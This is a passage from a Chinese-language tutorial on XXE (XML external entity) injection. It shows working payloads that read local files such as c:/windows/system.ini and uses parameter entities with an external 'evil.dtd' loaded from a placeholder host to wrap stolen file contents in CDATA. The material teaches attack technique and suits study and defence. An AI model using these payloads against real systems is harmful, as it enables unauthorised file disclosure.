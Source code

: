 我们试一下：

结果如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-3a9db89934cde5f5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

可以看到，不但没有读到我们想要的文件，而且还给我们报了一堆错，怎么办？这个时候就要祭出我们的另一个神器了------CDATA ，简单的介绍如下(引用自我的一片介绍 XML 的博客)：

>    有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者 " 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记
    <![CDATA[
    XXXXXXXXXXXXXXXXX
    ]]>
>可以输入任意字符除了 ]]> 不能嵌套,用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来

那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过，但是怎么做到，我们来简答的分析一下：

首先，找到问题出现的地方，问题出现在

```
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 "<![CDATA["和 “]]>”,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

结果如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-7f99f051461510b4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在 DTD
中拼接，我们知道我们只有一种选择，就是使用 参数实体

payload:

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>
```
evil.dtd
```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```
结果如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-6fe2f51e40e72286.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

感兴趣的童鞋可以分析一下整个调用过程，因为我在下面的例子中有分析一个类似的例子，于是出于篇幅考虑我这里就不分析了。
